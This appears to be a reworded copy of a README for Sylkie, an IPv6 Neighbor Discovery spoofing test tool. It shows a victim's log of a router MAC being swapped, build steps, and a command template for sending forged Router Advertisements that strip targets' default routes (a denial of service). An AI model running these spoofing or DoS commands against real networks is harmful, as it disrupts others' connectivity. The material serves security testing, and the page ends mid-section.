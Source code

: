 ```
//Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0a REACHABLE
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0a REACHABLE
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0a REACHABLE
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0c DELAY
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0c REACHABLE
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0c REACHABLE
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0c REACHABLE
```

## Sylkie

Sylkie is a command line device and library for testing systems for normal address spoofing security vulnerabilities in IPv6 systems utilizing the Neighbor Discovery Protocol. This venture is still in the early periods of advancement. On the off chance that you keep running into any issues, please consider presenting an issue. It presently just keeps running on Linux.

```
git clone https://github.com/dlrobertson/sylkie
cd ./sylkie
mkdir -p ./build
cd ./build
cmake -DCMAKE_BUILD_TYPE=Release ..
make
make install
```

```
sylkie -h
```

### DoS (Router Advert)

The basic usage of the router-advert command is listed below. This command will send a Router Advertisement message to the given ip or the all nodes multicast addres causing the targeted nodes to remove / from their list of default routes.

```
sylkie ra -i <interface> \
--target-mac <mac of router> \
--router-ip <ip of router> \
--prefix <router prefix> \
--timeout <time between adverts> \
--repeat <number of times to send the request>
```

Router Advert Examples
